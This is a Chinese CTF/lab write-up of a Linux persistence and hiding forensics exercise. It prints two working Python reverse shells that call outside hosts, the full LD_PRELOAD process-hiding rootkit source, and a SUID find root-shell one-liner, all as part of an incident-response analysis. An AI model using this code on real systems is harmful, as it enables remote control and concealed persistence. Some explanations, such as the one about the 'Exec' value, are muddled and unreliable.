









# 0x01前言

第三章在计划中，继续学习，感谢师傅的wp贡献让我学习的更深入

[玄机——第三章 权限维持-linux权限维持-隐藏 wp-CSDN博客](https://blog.csdn.net/administratorlws/article/details/140159790)

# 0x02正文

## 什么是linux权限维持?

首先在 Linux 系统上，权限维持是黑客攻击过程中的一个重要环节。攻击者成功获得系统权限后，会采取各种手段来保持对系统的访问控制，防止被发现并移除。这些手段可以分为多种，包括隐藏进程、文件、网络连接等。

## 一些常见的 Linux 权限维持和隐藏方法：

#### 后门程序

后门程序（Backdoor）是一种恶意软件或程序，允许攻击者绕过正常的身份验证或安全措施，以便在系统中获得未经授权的访问权限。后门程序可以被攻击者使用来在目标计算机上实现持久的控制，通常在攻击者已经成功入侵系统后安装。

- 后门程序的特点

1. **隐藏性**：后门程序通常设计得非常隐蔽，以避免被用户或安全软件发现。它们可能伪装成合法程序或系统服务。
2. **绕过安全控制**：后门程序使攻击者能够不通过正常的登录过程进入系统，从而绕过身份验证机制。
3. **远程访问**：后门程序通常允许攻击者从远程位置控制被感染的系统。攻击者可以通过网络连接与后门通信，执行命令、窃取数据或进一步传播恶意软件。
4. **持久性**：许多后门程序会在系统中实现持久性，即使系统重启也能重新激活。这可以通过修改启动项、服务或利用计划任务等方式实现。

攻击者通常会在受害系统中安装后门程序，以便在需要时重新获得访问权限。常见的后门程序包括：

- SSH 后门：创建一个新的用户，配置 SSH 公钥认证，避免密码登录被检测到。

- 反弹 Shell：通过反弹 Shell 连接到攻击者的机器，获取远程控制权限。

- Web Shell：通过 Web Shell（如 PHP 代码嵌入）远程控制 Web 服务器。

#### Rootkit

Rootkit 是一种能够隐藏自身及其他恶意程序的工具。安装 Rootkit 后，攻击者可以隐藏进程、文件和网络连接，防止被系统管理员发现。

- 内核级 Rootkit：直接修改内核数据结构和函数，隐藏进程、文件和网络连接。


- 用户级 Rootkit：通过劫持系统库函数（如 ld_preload），隐藏特定进程和文件。

#### 持久化机制

攻击者会使用各种持久化机制，以确保即使系统重启后也能重新获得控制权限。

- 修改启动脚本：在系统启动脚本中加入恶意代码，保证每次系统启动时都会执行。


- crontab 定时任务：在 crontab 中添加恶意任务，定期执行恶意程序。

#### 文件隐藏

攻击者会将恶意文件和工具隐藏在系统中，以防被发现。

- 文件名伪装：将恶意文件命名为类似系统文件的名称，如 syslogd、sshd 等。


- 隐藏目录：使用隐藏目录（如 . 开头的目录），将恶意文件放置其中。

#### 网络连接隐藏

攻击者可能会隐藏与其控制服务器的网络连接，以防被网络管理员发现。

- 端口重定向：使用工具（如 iptables）重定向流量到特定端口，隐藏实际通信端口。

- 加密通信：使用加密协议（如 SSH、SSL）进行通信，防止流量被检测和分析。

#### 日志清除

攻击者会清除或篡改系统日志，以隐藏入侵痕迹。

- 清除命令历史：删除或篡改 .bash_history 文件。

- 修改系统日志：直接修改系统日志文件（如 /var/log 下的日志），删除入侵痕迹。

#### 使用合法进程

攻击者会利用合法的系统进程进行恶意活动，以隐藏其行为。

- 进程注入：将恶意代码注入到合法的系统进程中。

- 利用系统工具：使用系统自带的工具（如 netcat、curl）进行恶意操作。

这些权限维持和隐藏技术使得攻击者能够长时间保持对系统的控制权，同时降低被检测和移除的风险。

## 问题1：黑客隐藏的隐藏的文件 完整路径md5

根据上面的权限维持方法可以知道，隐藏文件的方法有文件名伪装或者隐藏目录和隐藏文件，因为 Unix/Linux 系统中，文件名以 `.` 开头的文件默认是隐藏文件。这些文件不会显示在普通的 `ls` 命令输出中，除非使用 `ls -a`。黑客常常利用这种特性，将恶意文件或脚本以 `.` 开头来隐藏。

**那我们可以直接使用find来进行查找以点开头的隐藏文件**

```
find / -name ".*"
```



这里可以看到有很多文件，不过黑客经常会将隐藏文件放在`/tmp`目录下，因此先去这个目录下找，发现有一个`.temp`文件

分析一下这几个tmp目录下的文件

- /tmp/.temp

1.首先这个目录以 . 开头，因此是一个隐藏目录。

2.其次存放在 /tmp 目录下，这里通常用于临时文件存储。

3.最后黑客可能利用 /tmp 目录来存放临时的恶意文件，因为 /tmp 通常具有读写权限。

- /tmp/.temp/libprocesshider/

1.这个子目录也以 . 开头，属于隐藏目录 /tmp/.temp。

2.目录名 libprocesshider 暗示包含用于隐藏进程的库或工具，通常是恶意软件的一部分。

- /tmp/.temp/libprocesshider/.git

1.这是一个隐藏的 .git 目录，表明这个目录可能是一个 Git 仓库。

2.黑客可能使用 Git 来管理他们的工具或恶意代码。

- /tmp/.temp/libprocesshider/.gitignore

1.这是一个 Git 配置文件，用于指定哪些文件或目录在提交时应被忽略。

2.这个文件也以 . 开头，是一个隐藏文件。

- 为什么它们是隐藏文件

1.默认隐藏：在 Unix/Linux 系统中，以 . 开头的文件和目录默认是隐藏的。这种文件和目录不会在普通的 ls 列表中显示，除非使用 ls -a 命令。
2.逃避检测：黑客常常利用隐藏文件和目录来逃避系统管理员或安全工具的检测。把恶意文件放在隐藏目录中可以减少被发现的几率。
3.临时性：将文件放在 /tmp 目录下表明这些文件可能是临时的。系统重启后，某些 /tmp 目录下的文件可能会被删除，从而掩盖黑客的痕迹。

那我们跟进一下/tmp/.temp/libprocesshider/目录进行分析，然后可以看到有一个1.py和shell.py，



跟进一下1.py和shell.py

1.py

```python
#!/usr/bin/python3

import socket,subprocess,os,sys, time
'''这里导入了必要的模块：
socket：用于网络通信。
subprocess：用于执行外部命令。
os：用于操作系统相关的功能（如进程管理）。
sys：用于与Python解释器交互。
time：用于时间相关的操作（如休眠）。
'''
#Forking 进程
pidrg = os.fork()
if pidrg > 0:
        sys.exit(0)
#使用 os.fork() 创建一个新进程。父进程的 pidrg 将大于 0，因此它会退出，这样只留下子进程继续执行后续操作。

os.chdir("/")
os.setsid()
os.umask(0)
drgpid = os.fork()
if drgpid > 0:
        sys.exit(0)
'''
将工作目录更改为根目录 /，这样可以避免对当前目录的引用。
使用 os.setsid() 创建一个新会话，使当前进程成为会话的领导者。这是为了确保它不会在终端控制下运行。
使用 os.umask(0) 设置文件创建掩码为 0，允许创建的文件权限没有限制。
再次进行进程分叉，确保完全脱离终端。父进程会退出，只保留了新的子进程。
'''
while 1:
        try:
                sys.stdout.flush()
                sys.stderr.flush()
                fdreg = open("/dev/null", "w")
                sys.stdout = fdreg
                sys.stderr = fdreg
                '''进入无限循环，确保该程序持续运行。
清空标准输出和标准错误输出。
将标准输出和标准错误重定向到 /dev/null，即丢弃所有输出。'''
                sdregs=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                sdregs.connect(("114.114.114.121",9999))
                #创建一个TCP socket并连接到指定的IP地址（114.114.114.121）和端口（9999）。这就是反向连接的目标。
                os.dup2(sdregs.fileno(),0)
                os.dup2(sdregs.fileno(),1)
                os.dup2(sdregs.fileno(),2)
                #通过 os.dup2() 将标准输入、标准输出和标准错误输出重定向到与攻击者连接的socket。这意味着任何输入、输出和错误信息都将通过网络发送到攻击者的计算机。
                p=subprocess.call(["/bin/bash","-i"])
                sdregs.close()
                #启动一个交互式的bash shell，这样攻击者就可以通过socket执行命令。
                #关闭socket连接。
        except Exception:
                pass
        time.sleep(2)
        #如果在连接过程中出错（如连接失败），捕获异常并等待2秒钟，然后重试。

```

**这个 Python 脚本文件是一个反弹 shell 程序，具有后台运行的功能。反向Shell是指在被攻击的计算机上打开一个Shell，并通过网络向攻击者的计算机连接，这样攻击者就可以远程执行命令。**

分析一下这个反弹shell的程序，我全部注释在代码里面

**总结**

**这个脚本的目的是创建一个反弹 shell 连接，将当前系统的命令行接口通过网络发送到远程服务器 `114.114.114.121:9999`，并在服务器上执行。这种行为通常被黑客用来远程控制受害者的系统。**

我们再看看shell.py文件

```python
#!/usr/bin/python3
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("172.16.10.7",2220))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
run(["/bin/bash","-i"])
```

**简单来说 这个 `shell.py` 文件也是一个反弹 shell 脚本。它的作用是将当前系统的标准输入、标准输出和标准错误重定向到一个远程服务器的网络连接上，从而允许远程服务器对该系统进行命令控制。**

我们简单分析一下这两个文件的功能和特点

文件1.py

- 功能和特点


1.双重 Fork 实现进程脱离控制台：

- 第一次 fork 后父进程退出，使子进程成为孤儿进程，由 init 进程收养。


- 调用 setsid 创建新会话并成为会话组长。

- 第二次 fork 确保进程不是会话组长，从而避免再打开控制终端。

2.无限循环连接反弹：

- 在无限循环中尝试连接 114.114.114.121 的 9999 端口。


- 成功连接后，将标准输入、输出和错误重定向到该 socket。

- 启动一个 /bin/bash shell。

3.隐藏自身输出：

- 将标准输出和标准错误重定向到 /dev/null，使其不产生任何输出。

文件shell.py;

- 功能和特点


1.简单直接的反弹 Shell：

- 创建一个 TCP 连接到 172.16.10.7 的 2220 端口。
- 将标准输入、输出和错误重定向到该 socket。
- 启动一个交互式的 /bin/sh shell。

对比和区别

- 连接目标和端口不同：

1.py 连接 114.114.114.121 的 9999 端口。

shell.py 连接 172.16.10.7 的 2220 端口。

- shell 类型：

1.py 使用的是 /bin/bash。

shell.py 使用的是 /bin/sh。

- 进程处理：

1.py 通过双重 fork 以及会话控制使进程脱离终端并成为守护进程。

shell.py 没有进行进程处理，直接运行反弹 shell。

- 隐藏输出：

1.py 将标准输出和标准错误重定向到 /dev/null，以隐藏运行时的任何输出。

shell.py 没有执行这一步，输出会直接通过 socket 传输。

- 无限重连：

1.py 在捕获到异常时，通过 time.sleep(2) 进行无限重连。

shell.py 只在执行时进行一次连接，没有重连机制。

- 总的来说；

这两个脚本都用于反弹 shell，其中 1.py 采用了更复杂的技术来隐藏和持久化，而 shell.py 则是一个简单直接的反弹 shell 实现。它们的共同点是都通过 socket 连接到远程主机并启动一个 shell，允许远程执行命令。区别在于 1.py 更注重隐藏和持续性，而 shell.py 则更加简洁和直接。

不过单从这两个文件并不能看出哪个是隐藏文件，我们再另外分析一下

可以看到里面还有一个processhider.c,我们也分析一下

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

/*
 * Every process with this name will be excluded
 */
static const char* process_to_filter = "1.py";

/*
 * Get a directory name given a DIR* handle
 */
static int get_dir_name(DIR* dirp, char* buf, size_t size)
{
    int fd = dirfd(dirp);
    if(fd == -1) {
        return 0;
    }

    char tmp[64];
    snprintf(tmp, sizeof(tmp), "/proc/self/fd/%d", fd);
    ssize_t ret = readlink(tmp, buf, size);
    if(ret == -1) {
        return 0;
    }

    buf[ret] = 0;
    return 1;
}
/*get_dir_name 函数通过 dirfd 获取目录文件描述符，并使用 readlink 读取符号链接 /proc/self/fd/ 指向的实际路径。*/

/*
 * Get a process name given its pid
 */
static int get_process_name(char* pid, char* buf)
{
    if(strspn(pid, "0123456789") != strlen(pid)) {
        return 0;
    }

    char tmp[256];
    snprintf(tmp, sizeof(tmp), "/proc/%s/stat", pid);
 
    FILE* f = fopen(tmp, "r");
    if(f == NULL) {
        return 0;
    }

    if(fgets(tmp, sizeof(tmp), f) == NULL) {
        fclose(f);
        return 0;
    }

    fclose(f);

    int unused;
    sscanf(tmp, "%d (%[^)]s", &unused, buf);
    return 1;
}

#define DECLARE_READDIR(dirent, readdir)                                \
static struct dirent* (*original_##readdir)(DIR*) = NULL;               \
                                                                        \
struct dirent* readdir(DIR *dirp)                                       \
{                                                                       \
    if(original_##readdir == NULL) {                                    \
        original_##readdir = dlsym(RTLD_NEXT, #readdir);               \
        if(original_##readdir == NULL)                                  \
        {                                                               \
            fprintf(stderr, "Error in dlsym: %s\n", dlerror());         \
        }                                                               \
    }                                                                   \
                                                                        \
    struct dirent* dir;                                                 \
                                                                        \
    while(1)                                                            \
    {                                                                   \
        dir = original_##readdir(dirp);                                 \
        if(dir) {                                                       \
            char dir_name[256];                                         \
            char process_name[256];                                     \
            if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&        \
                strcmp(dir_name, "/proc") == 0 &&                       \
                get_process_name(dir->d_name, process_name) &&          \
                strcmp(process_name, process_to_filter) == 0) {         \
                continue;                                               \
            }                                                           \
        }                                                               \
        break;                                                          \
    }                                                                   \
    return dir;                                                         \
}

DECLARE_READDIR(dirent64, readdir64);
DECLARE_READDIR(dirent, readdir);

```

总的来说

这个 `processhider.c` 文件的目的是通过动态链接库拦截 `readdir` 系统调用，来隐藏特定名称的进程（在这个中是 `1.py`）的目录项，使其在进程列表中不可见。

```c
static const char* process_to_filter = "1.py";
```

这段代码指定要隐藏的进程为1.py，所以我们可以确定这个1.py就是黑客想要隐藏的文件了，直接md5加密路径然后提交就行

## 问题2:黑客隐藏的文件反弹shell的ip+端口 {ip:port}

这个的话因为上一题已经分析处理1.py就是隐藏文件，在1.py里面就有反弹shell的远程服务器iip和端口，直接交flag就行，没什么好讲的

## 问题3:黑客提权所用的命令 完整路径的md5 flag{md5}

让我们提交黑客提权使用的命令，那我们就要去分析日志和文件了，后面分析发现是需要查看以下文件：

- /etc/passwd
- /etc/sudoers
- 具有SUID位设置的文件

### **什么是SUID提权**

SUID（Set User ID）是 Unix/Linux 文件系统中的一种权限位。当文件的 SUID 位被设置时，执行该文件的用户将临时获得文件所有者的权限。这通常用于程序需要执行一些需要更高权限的操作（例如，`ping` 命令需要发送 ICMP 请求，因此需要 root 权限）。

### 怎么进行SUID提权

- 查找 SUID 文件： 使用 find 命令查找系统中的所有 SUID 文件：


find / -perm -u=s -type f 2>/dev/null

- 检查可疑文件： 查看找到的 SUID 文件，寻找常见的提权工具（如 nmap、vim、find、awk、perl 等）是否在列表中。这些工具如果被设置为 SUID，有可能被利用来执行任意命令。


- 利用漏洞： 如果找到的 SUID 文件有已知的漏洞，可以利用这些漏洞来执行任意命令。例如，某些版本的 nmap 可以通过 --interactive 模式获得一个 shell，进而提权。

那我们应该如何检查文件是否被进行提权呢

### **如何判断文件是否可能被利用进行提权？**

- 不应拥有 SUID 位的程序： 如常见编辑器（vim）、网络工具（tcpdump）、脚本语言解释器（perl）等。如果这些程序被设置了 SUID 位，通常是异常情况，需要进一步检查。

- 检查文件的所有权和权限： 例如，一个 root 所有的文件，其权限中包含 SUID 位，可以通过 ls -l 命令查看文件的详细信息。如果发现可疑文件，可以进一步分析其行为。

这里我们讲解一个示例

- 利用SUIDfind获取root shell

假设 find 命令具有 SUID 位，可以使用以下方法获取 root shell：

```
/usr/bin/find . -exec /bin/sh \; -quit
```

这里，find 将在当前目录（.）搜索，并使用 -exec 选项执行 /bin/sh（一个新的 shell）。因为 find 具有 SUID 位，这个 shell 将以 root 权限运行。


这里我们使用命令:

```
find / -perm -u=s -type f 2>/dev/null
```

这个命令用于查找系统上所有设置了 SUID 位的文件。具体解释如下：

- find /: 从根目录开始查找。

- -perm -u=s: 查找文件权限中包含 SUID 位（即，用户执行该文件时将获得该文件所有者的权限）。
- -type f: 只查找文件（不包括目录）。
- 2>/dev/null: 将标准错误输出重定向到 /dev/null，以避免显示权限不足等错误信息。



这些就是被设置了SUID的文件，我们先进行简单的分析一下

从里面不难看出/usr/bin/find被进行了提权，那有人就要问了，为什么我们要从中选出这个进行分析呢

**在文件列表中，`/usr/bin/find` 是一个特别值得关注的 SUID 文件，因为 `find` 命令具有一些可以被恶意利用的特性**

### 什么是find命令

`find` 是一个非常强大的命令行工具，用于在目录树中搜索文件并执行各种操作。`find` 可以执行指定的命令或脚本，这使得它在具有 SUID 位时变得特别危险。

当 `find` 命令设置了 SUID 位，并且该命令存在已知漏洞或不当配置，攻击者可以利用它来执行任意命令，从而提升权限

我们先检查一下find命令的权限

```
ls -l /usr/bin/find
```



```
-rwsr-xr-x. 1 root root 229992 Jan  6  2014 /usr/bin/find
```

我们来分析一下这个find命令

### 权限字符

| 权限组                | 权限字符 | 含义                                |
| --------------------- | -------- | ----------------------------------- |
| 1. 所有者（owner）    | `rws`    | 读取（r）、写入（w）、可执行（s）   |
| 2. 用户组（group）    | `r-x`    | 读取（r）、不可写（-）、可执行（x） |
| 3. 其他用户（others） | `r-x`    | 读取（r）、不可写（-）、可执行（x） |

`rws` 表示文件所有者（root）具有 SUID 位（`s`），并且文件的所有者是 root，用户组和其他用户可以读取和执行该文件，但不能修改它。

所以这里不难看出find命令就是被黑客进行提权的命令

### 为什么 find 特别危险？

- 强大的功能： find 命令可以执行任意命令或脚本，这意味着如果用户能够控制 find 的输入，他们可以执行任意代码。
- 常见漏洞： 许多历史版本的 find 命令存在已知漏洞，允许攻击者以 root 权限执行任意代码。
- 广泛使用： find 是一个常用工具，很多系统管理员和用户都习惯使用它，且往往忽略其安全隐患。

总的来说，在 SUID 文件列表中，`/usr/bin/find` 因其强大的功能和历史漏洞，可以直接进行提权。攻击者可以利用 SUID `find` 的 `-exec` 选项执行任意命令，从而获得高权限（如 root 权限）的 shell。

所以问题3的命令就是find，目录就是/usr/bin/find

## 问题4：黑客尝试注入恶意代码的工具完整路径md5

### 常用的注入工具

**包括了不同类型的工具，如命令注入、SQL注入、代码注入等**

- SQLMap


描述：一个开源的自动化SQL注入工具，能够识别和利用SQL注入漏洞并接管数据库服务器。

用法：适用于各种数据库管理系统（如MySQL、PostgreSQL、Oracle、Microsoft SQL Server等）的SQL注入攻击。

- Havij

描述：一个自动化的SQL注入工具，具有图形用户界面，能够轻松利用SQL注入漏洞。

用法：用于挖掘和利用SQL注入漏洞，特别适用于初学者。

- SQLNinja

描述：一个专门针对Microsoft SQL Server的SQL注入工具。

用法：帮助攻击者利用SQL注入漏洞获取系统权限。

- JSQL Injection

描述：一个开源的跨平台SQL注入工具，支持多种数据库。

用法：提供图形用户界面，便于用户进行SQL注入攻击。

- Burp Suite

描述：一个用于测试Web应用程序安全性的综合工具，具有SQL注入模块。

用法：手动和自动化的SQL注入测试。

- Commix

描述：一个自动化的命令注入和命令执行工具。

用法：帮助发现和利用Web应用程序中的命令注入漏洞。

- Metasploit

描述：一个渗透测试框架，包含多个注入模块（包括SQL注入、命令注入等）。

用法：广泛用于渗透测试和漏洞利用。

- Cymothoa

描述：一个后门工具，用于将用户空间代码注入到正在运行的进程中。

用法：常用于在受感染的系统上持久化存在并隐蔽地运行恶意代码。

- BeEF (Browser Exploitation Framework)

描述：一个浏览器攻击框架，用于利用浏览器漏洞并在受害者浏览器上执行恶意代码。

用法：通过浏览器注入代码并控制受害者浏览器会话。

- W3af (Web Application Attack and Audit Framework)

描述：一个Web应用程序安全扫描器和攻击框架，支持多种注入攻击（如SQL注入、命令注入等）。
用法：用于自动化扫描和攻击Web应用程序。

工具讲完了，我们就一个个找就行了

### /opt目录

**因为在Linux系统中，通常将 `/opt` 目录用于存放可选的、占用空间较大的第三方软件和应用程序。这些程序通常不是系统自带的，也不是通过系统包管理器（如apt、yum等）安装的。**

所以我们先看一下/opt目录



发现这里有一个文件被隐藏起来了，初步判断是黑客隐藏的恶意文件，我们跟进看一下



发现了Cymothoa后门工具，直接提交这个工具的具体目录就行

完整路径:/opt/.cymothoa-1-beta/cymothoa

我们介绍一下这个后门工具哈

### **Cymothoa后门工具**

这里直接放大佬的笔记了，我只写了基本概念，如何使用的话可以参考大佬的笔记

[Cymothoa后门工具 - 卿先生 - 博客园](https://www.cnblogs.com/-qing-/p/10519363.html#_lab2_0_0)

Cymothoa 是一款可以将 shellcode 注入到现有进程的（即插进程）后门工具。借助这种注入手段，它能够把shellcode伪装成常规程序。它所注入的后门程序应当能够与被注入的程序（进程）共存，以避免被管理和维护人员怀疑。将shellcode注入到其他进程，还有另外一项优势：即使目标系统的安全防护工具能够监视可执行程序的完整性，只要它不检测内存，那么它就不能发现（插进程）后门程序的进程。

## 问题5：使用命令运行 ./x.xx 执行该文件 将查询的 Exec****** 值作为flag提交 flag{/xxx/xxx/xxx}

我们先了解一下什么是exec值

### Exec值

**就是Linux系统中的 Exec 相关字段，通常用于查看程序执行时的权限设置**。这些字段通常可以在文件系统的详细信息（如 ls -l 命令的输出）中找到。具体来说：

- 文件权限字段解释：


文件或目录权限显示的第一个字段是 Exec 字段。

对于文件，这个字段的值代表了文件的执行权限。

对于目录，这个字段的值表示该目录是否可以被执行（进入）。

- 具体取值：

如果该字段显示为 r，表示文件具有读权限。

如果该字段显示为 w，表示文件具有写权限。

如果该字段显示为 x，表示文件具有执行权限。

如果该字段显示为 -，表示文件没有相应的权限。

- 举个例子；

例如，一个文件的详细信息可能如下所示：

-rwxr-xr--

在这个例子中，Exec 字段的值为 -rwxr-xr--，这表示：

所有者（Owner）有读、写、执行权限（rwx）。
组（Group）有读、执行权限（r-x）。
其他用户（Others）只有读权限（r–）。
因此，通过查看文件或目录的详细信息，可以了解到文件的具体权限设置，包括是否具有执行权限。

这里的话是需要我们去运行1.py文件并将exec值提交

Cat 查看1.py：

```python
root@xuanji:/opt/.cymothoa-1-beta# cat /tmp/.temp/libprocesshider/1.py
#!/usr/bin/python3
 
import socket,subprocess,os,sys, time
```

发现默认是“#!/usr/bin/python3” ，即pyton3运行1.py

那我们就先运行一下1.py文件，并查看端口情况判断是否成功执行

```
python3 1.py
netstat -anlpt
```



这里可以看到是成功执行了并且有网络连接

**据之前已经可以确认IP地址：114.114.114.121:9999就是反弹shell的IP，**

那我们查找一下python3

```
which python3
```



看到目录了我们就直接查看这个文件的权限设置，找到我们想要的exec值

```
ls -la /usr/bin/python3
```



所以flag就是flag{/usr/bin/python3.4}

其实这里我也很奇怪，为啥是python3.4

- 由于 `/usr/bin/python3` 指向 `python3.4`，并且在文件的权限字段中显示有 `rwx`（读、写、执行权限），因此 `Exec` 值被设置为表示这个文件是可执行的。

- `/usr/bin/python3` 是一个符号链接（软链接），指向 `python3.4`。

所以，根据符号链接指向的实际文件 `python3.4` 的权限设置，`/usr/bin/python3` 作为一个符号链接，继承了指向文件的执行权限。
